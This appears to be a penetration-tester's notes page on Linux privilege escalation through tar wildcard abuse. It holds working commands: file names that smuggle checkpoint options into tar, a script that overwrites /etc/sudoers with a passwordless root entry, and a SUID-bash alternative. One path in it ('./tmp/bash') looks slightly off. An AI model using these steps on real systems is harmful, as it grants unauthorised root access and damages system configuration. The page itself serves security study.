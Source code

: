 # Wildcard abuse
- Check [Hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html) for common applications that can be abused when operating with wildcards
- If we find usage of a wildcard `*` in a `tar` command (i.e `tar -zcf /home/kali/TarWildCardPrivEsc/backup.tgz *` in a bash script that gets executed by another user) we can trick `tar` into interpreting filenames as parameters as shown [here](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)
```zsh
# 1. Create files in the current directory called  
# '--checkpoint=1' and '--checkpoint-action=exec=sh privesc.sh'  
  
echo "" > '--checkpoint=1'  
echo "" > '--checkpoint-action=exec=sh privesc.sh'  
  
# 2. Create a privesc.sh bash script, that allows for privilege escalation  
#privesc.sh:  
echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers  
  
#The above injects an entry into the /etc/sudoers file that allows the 'kali' user to use sudo without a password for all commands  
#NOTE: we could have also used a reverse shell, this would work the same!  
#OR: Even more creative, you could've used chmod to changes the permissions on a binary to have SUID permissions, and PE that way:
cp /bin/bash /tmp/
chmod u+s /tmp/bash
./tmp/bash -p
```
>[!WARNING]
>Be sure to run the copied bash binary which has the SUID set with the `-p` parameter